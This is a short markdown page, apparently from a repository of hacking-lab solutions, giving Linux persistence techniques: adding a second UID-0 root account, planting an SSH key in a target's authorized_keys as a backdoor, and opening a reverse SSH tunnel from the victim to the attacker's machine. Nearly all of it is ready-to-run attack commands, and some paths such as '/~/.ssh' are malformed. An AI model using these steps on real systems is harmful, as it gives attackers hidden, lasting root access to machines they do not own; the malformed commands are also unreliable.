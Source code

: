# Solutions for Persistence

### Add a root user

> sudo useradd -ou 0 -g 0 user_you_want_to_create

> sudo passwd user_you_created

> echo password_you_created | passwd --stdin user_you_created 

Now you have created a new root user!

### SSH Backdoor

You'll need to generate public/private keypair for the ssh to work. You can generate your keypair by giving the command:
> ssh-keygen

It will generate a private key __.ssh/id_rsa__ and a public key __.ssh/id_rsa.pub__.

Copy the public key to the target machine's __.ssh/authorized_keys__ file, it can be usually found in the home directory. This can be done by

> scp ~/.ssh/id_rsa.pub TARGET_USER@TARGET_IP:/~/.ssh/

And now in the target machines, give the command:
> cat ~/.ssh/id_rsa.pub >> authorized_keys 

This will copy the the public key into the authorized_keys file.

Remember to set the right permissions for the file, so you won't get any weird failures in the future.

> chmod 700 /~
> chmod 700 /~/.ssh
> chmod 600 /~/.ssh/authorized_keys

Now you can ssh to the target machine!
> ssh -i ~/.ssh/id_rsa victim@victimip

If this fails, you can try to create reverse SSH tunnel, and get the target machine to  contact you.

> ssh -N -R 9999:localhost:22 your_machine@your_ip

-N flag sets up the tunnel without promting a shell on your machine.

On your machine, check that your machine is listening the port 9999 by using the command:
> netstat -l

If everything is good, run on your machine:
>ssh -i ~/.ssh/id_rsa target_user@localhost -p 9999 

Reverse shell backdoor set up!
